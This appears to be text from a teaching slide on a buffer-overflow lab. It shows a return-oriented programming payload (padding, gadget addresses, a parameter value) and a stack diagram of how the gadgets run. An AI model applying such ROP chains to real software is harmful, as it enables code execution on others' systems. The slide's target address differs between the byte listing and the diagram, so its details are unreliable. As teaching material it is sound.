

/* Pad with 24 bytes */
00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00
/ * address to  pop to rax */
 00 00 00 00 00 40 1b 07
/* parameter to pass 0x76927bbf */
 00 00 00 00 76 92 7b bf
/* address to move from rax to rdi */
 00 00 00 00 00 40 1a f3
/* call the target function */
 00 00 00 00 00 40 19 74
High address
0000000000409174
%rsp
0000000000401af3
%rsp
0000000076927bbf
%rsp
First gadget ends with “ret” (%rsp = %rsp + 8)
Execute the second gadget
(movq %rax, %rdi; ret)
0000000000401b07
%rsp
Execute “return”
%rsp = %rsp + 8
Execute the first gadget
(popq %rax)
0000000000000000
…
%rsp